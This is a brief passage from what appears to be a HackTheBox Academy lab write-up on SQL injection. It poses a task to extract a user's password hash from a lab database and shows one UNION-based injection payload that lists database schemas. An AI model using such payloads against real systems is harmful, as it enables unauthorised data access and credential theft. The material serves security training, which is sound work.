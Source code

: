 ## Exploitation

### Database Enumeration

**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**    

94.237.53.128:39113




![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-31.png)

cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-32.png)
